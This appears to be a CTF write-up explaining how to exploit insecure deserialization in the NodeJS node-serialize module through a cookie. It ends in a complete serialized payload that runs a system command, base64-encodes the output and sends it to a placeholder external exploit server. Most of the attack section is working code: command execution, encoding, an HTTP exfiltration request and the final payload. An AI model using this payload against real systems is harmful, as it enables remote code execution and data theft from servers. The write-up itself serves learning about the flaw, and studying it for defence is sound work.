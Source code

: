 ## NodeJS Insecure Deserialization Out-Of-Band Exploitation

### Introduction

If you find a vulnerability that allows you to run NodeJS code but you're unable to see the results, then you could use this exploitation technique to exfiltrate the data or the system commands output through an indirect channel (Out of Band). 

This exploitation techniques is one of the many ways you can see the output of executed commands, but I happen to come up with this technique during solving a web challenge in a CTF.

In my case, an Insecure Deserialization vulnerability in NodeJS that allowed me to execute NodeJS code. 

---

### Serialization and Deserialization

Serialization is the process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file. 
Its main purpose is to save the state of an object in order to be able to recreate it when needed.

Deserialization is the reverse process.

### Insecure Deserialization

The vulnerability occurs in the deserialization process when the serialized data is controlled by the user. If a user provides malicious data it will be executed by the back-end technology.

### The Hot spot

The hot spot in the application was the cookie value. It was a base64 encoded serialized object, after playing with the cookie, removing, adding and changing different values in the object it returned an error showing me that the application is using NodeJS and specifically the node-serialize NodeJS module used in the serialization process.

It was pretty much similar to this blog post: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

The cookies passed to `unserialize()` function which could be exploited to achieve Remote Code Execution.  

### Serialization and Deserialization in NodeJS

An Object in JavaScript is determined by curly braces, like this { property : "value" }

A serialized object in NodeJS will differ depending on the property and the value, so if you serialize the above object it would look like {"property" : "value"}, but if you change the value to a function instead of a string, like { rce : function(){console.log("Hello");} }

And it will look like this:

```javascript
{ "rce" : "_$$ND_FUNC$$_function(){console.log(\\"Hello\\");}" }
```

But in order for the unserialize() function to execute this code, we're going to use the Immediately Invoked Function Expression, which is a JavaScript thing that allows us to call or invoke the function, in our case in the serialized object. All we need to do is to add parentheses () after the body of the function. 

```javascript
{ "rce" : "_$$ND_FUNC$$_function(){console.log(\\"Hello\\");}()" }
```

<img src="https://raw.githubusercontent.com/Th3Mind/assets/main/IIFE.png" />

To serialize objects in nodejs, download node and npm on your machine, install node-serialize module with npm, require the module in your code, then use the required module's serialize(obj) method to serialize an object.

Now that we know we can execute JavaScript code, let's build the OOB exploitation payload.

#### Requirements

- An external http server ( BurpSuite Collaborator for example ) to recieve the data, in our case the output of executed system commands.
- NodeJS modules for building the payload: node:child_process, https, node-serialize


### Hack Steps

1. Execute system commands in NodeJS
2. Base64 encode the executed command's output ( To ensure the NodeJS doesn't return exceptions while sending data that include special characters and spaces to an external website )
3. Send the base64 encoded data as a query string to the external http server.

#### Executing System Commands in NodeJS

```javascript
var { exec } = require('node:child_process')

// run the `ls` command
exec('ls', (err, output) => {
    // Do stuff with output 
    if (err) {
        // log and return if we encounter an error
        console.error("could not execute command: ", err)
        return
    }
    console.log("Output: \n", output)
})
```

#### Base64 Encoding in NodeJS 

Buffers can be used for taking a string or piece of data and doing Base64 encoding of the result. And because Buffers are global objects there's no need for a require.

```javascript
let data = "commandsoutput";
let buff = new Buffer(data);
let base64data = buff.toString('base64');
```

#### Sending HTTP requests in NodeJS 

https://www.geeksforgeeks.org/how-to-make-http-requests-in-node-js/

```javascript
// Importing https module
const https = require('https');
  
// Setting the configuration for
// the request
const options = {
    hostname: '',
    path: '/posts',
    method: 'GET'
};
    
// Sending the request
const req = http.request(options, (res) => {
    let data = ''
     
    res.on('data', (chunk) => {
        data += chunk;
    });
    
    // Ending the response 
    res.on('end', () => {
        console.log('Body:', JSON.parse(data))
    });
       
}).on("error", (err) => {
    console.log("Error: ", err)
}).end()
```
### Payload

So, now we're going to combine all of the above to form our payload with respect to the Hack Steps above.

The final paylaod after serializing will look like this: 

```javascript
{"rce":"_$$ND_FUNC$$_function(){ var { exec } = require('node:child_process'); exec('uname', (err, output) => {let buff = new Buffer(output); let base64data = buff.toString('base64');var https = require('https'); var options = {hostname: 'YOUR_EXTERNAL_EXPLOIT_SERVER.com',path: '/?b64='+base64data, method: 'GET'};var req = http.request(options, (res) => {console.log(\\"done\\")}).end()})}()"}
```

After I base64 encoded the above payload and sent it to the server through the cookie, I got the uname command output in my exploit server!

#### Extra Step

As an extra step, you can send the data to a php script you've written to automatically take the parameter value and decode it from base64.

### Thank you!

Thanks for reading this post, I hope it was a helpful read :)! 

